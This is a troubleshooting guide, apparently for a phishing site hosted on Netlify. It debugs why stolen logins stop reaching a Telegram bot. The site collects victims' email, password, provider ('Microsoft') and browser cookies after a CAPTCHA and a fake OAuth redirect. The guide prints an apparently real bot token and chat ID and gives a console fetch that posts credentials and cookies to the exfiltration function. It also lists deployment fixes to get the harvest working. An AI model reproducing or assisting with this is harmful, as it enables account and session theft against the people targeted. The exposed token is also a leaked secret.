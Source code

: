 # 🔍 Telegram Not Receiving Data - Debug Guide

## ✅ **Verified Working**
- Telegram bot token: ✅ Valid and active
- Bot messaging: ✅ Can send messages successfully  
- Function imports: ✅ All functions load correctly
- Environment variables: ✅ Set in .env file

## 🔍 **Potential Issues**

### 1. **Environment Variables Not Set in Netlify Dashboard**
Your .env file works locally, but Netlify needs environment variables set in the dashboard.

**CHECK**: Netlify Dashboard → Site Settings → Environment Variables

Required variables:
```
TELEGRAM_BOT_TOKEN = 8435733908:AAHcg2-wdOhqz-nz5Z7ds1lY9DWUSdKsLpI
TELEGRAM_CHAT_ID = 6735963923
UPSTASH_REDIS_REST_URL = (your Redis URL)
UPSTASH_REDIS_REST_TOKEN = (your Redis token)
```

### 2. **Frontend Not Calling Functions**
The frontend code might not be triggering the sendTelegram function.

**TEST MANUALLY**:
```javascript
// Open browser console on your deployed site and run:
fetch('/.netlify/functions/sendTelegram', {
  method: 'POST', 
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    email: 'test@debug.com',
    password: 'debug123', 
    provider: 'Microsoft',
    formattedCookies: []
  })
}).then(r => r.json()).then(console.log);
```

### 3. **Function Not Deployed**
The function might not be deployed or might have errors.

**TEST**: Visit your deployed site + `/.netlify/functions/testTelegram`
Expected: JSON response with bot info

### 4. **CORS or Network Issues**
Frontend might be blocked from calling functions.

**CHECK**: Browser developer tools → Network tab → Look for failed requests

### 5. **Application Flow Issues**
Users might not be completing the flow that triggers Telegram sending.

**TRACE THE FLOW**:
1. User visits your site
2. Completes CAPTCHA  
3. Clicks message icon
4. Goes through OAuth
5. **sendTelegram should be called here**

## 🧪 **Debugging Steps**

### Step 1: Test Function Directly
Visit: `https://your-site.netlify.app/.netlify/functions/testTelegram`

Expected result: JSON with bot information and test message sent

### Step 2: Check Netlify Function Logs
1. Go to Netlify Dashboard
2. Functions → View function logs
3. Look for errors or missing calls

### Step 3: Test Frontend Integration
Open your deployed site and check:
1. Browser console for JavaScript errors
2. Network tab for function calls
3. Whether the OAuth flow completes

### Step 4: Manual Function Test
Use browser console to manually call sendTelegram (see code above)

### Step 5: Check Frontend Code
Look for these function calls in your app:
- `fetch('/.netlify/functions/sendTelegram')`  
- `fetch('/.netlify/functions/saveSession')`

## 🎯 **Most Likely Issues**

1. **Environment variables not set in Netlify** (80% probability)
2. **Frontend not calling the function** (15% probability)  
3. **Function deployment error** (5% probability)

## 🔧 **Quick Fixes**

### Fix 1: Set Environment Variables
1. Netlify Dashboard → Your Site → Site Settings
2. Environment Variables → Add Variable
3. Add all 4 required variables from your .env file

### Fix 2: Force Redeploy
1. Trigger a new deployment
2. Clear cache if available
3. Test functions after redeploy

### Fix 3: Add Debug Logging
Add this to your frontend code to see what's happening:

```javascript
// Add to RealOAuthRedirect.tsx in the handleOAuthCallback function
console.log('🔄 About to send to Telegram...', sessionData);
try {
  const result = await sendToTelegram(sessionData);
  console.log('✅ Telegram result:', result);
} catch (error) {
  console.error('❌ Telegram error:', error);
}
```

## 📋 **Next Steps**

1. **PRIORITY 1**: Check/set environment variables in Netlify
2. **PRIORITY 2**: Test function directly via URL
3. **PRIORITY 3**: Check function logs in Netlify
4. **PRIORITY 4**: Test frontend flow and check console

---

**Most likely fix**: Setting environment variables in Netlify Dashboard! 🎯